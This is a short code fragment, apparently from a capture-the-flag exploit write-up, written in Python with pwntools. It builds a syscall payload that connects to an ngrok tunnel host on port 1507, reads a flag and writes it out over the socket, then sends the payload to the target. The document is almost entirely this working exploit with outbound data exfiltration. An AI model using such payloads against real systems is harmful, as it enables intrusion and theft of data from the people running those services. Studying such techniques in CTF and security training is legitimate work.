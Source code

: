 ```py
    IPHEX = 0x030ed4ad # 0.tcp.ngrok.io
    connect_struct  = p32(0x0b290002) # port: 1507, domain: AF_INET
    connect_struct += p32(IPHEX)[::-1]
    payload += write_str(elf.bss(0x30), connect_struct)

    connect_arg  = p32(1) # sockfd
    connect_arg += p32(elf.bss(0x30)) # connect_struct
    connect_arg += p32(0x10) # connect_struct size
    payload += write_str(elf.bss(0x100), connect_arg)
    # connect(sockfd, (struct sockaddr *) &connect_struct, 0x10)
    payload += syscall(0x66, 3, elf.bss(0x100))

    # read flag
    payload += syscall(3, 0, elf.bss(0x200), 0x100)

    # write to sockfd
    payload += syscall(4, 1, elf.bss(0x200), 0x100)

    r.sendafter('\n', payload)
```
